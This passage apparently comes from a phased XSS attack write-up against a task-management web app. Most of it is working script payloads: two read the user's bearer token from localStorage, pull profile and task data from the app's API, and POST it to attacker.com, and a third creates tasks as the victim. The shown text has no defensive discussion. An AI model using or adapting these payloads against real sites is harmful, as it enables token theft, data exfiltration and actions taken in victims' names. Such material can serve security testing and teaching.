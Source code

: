 ### Phase 3: Data Exfiltration

1. **Extract User Data**
   ```html
   <script>
     // Get current user info
     fetch('/api/users/profile', {
       headers: { 'Authorization': 'Bearer ' + localStorage.getItem('token') }
     })
     .then(response => response.json())
     .then(data => {
       // Send to attacker server
       fetch('https://attacker.com/exfil', {
         method: 'POST',
         body: JSON.stringify(data)
       });
     });
   </script>
   ```

2. **Extract All Tasks**
   ```html
   <script>
     // Get all accessible tasks
     fetch('/api/tasks', {
       headers: { 'Authorization': 'Bearer ' + localStorage.getItem('token') }
     })
     .then(response => response.json())
     .then(tasks => {
       // Exfiltrate task data
       fetch('https://attacker.com/tasks', {
         method: 'POST',
         body: JSON.stringify(tasks)
       });
     });
   </script>
   ```

### Phase 4: Advanced Attacks

1. **Perform Actions on Behalf of User**
   ```html
   <script>
     // Create malicious task
     fetch('/api/tasks', {
       method: 'POST',
       headers: {
         'Authorization': 'Bearer ' + localStorage.getItem('token'),
         'Content-Type': 'application/json'
       },
       body: JSON.stringify({
         title: 'Compromised Account',
         description: 'This account has been compromised via XSS',
         priority: 'HIGH'
       })
     });
   </script>
   ```
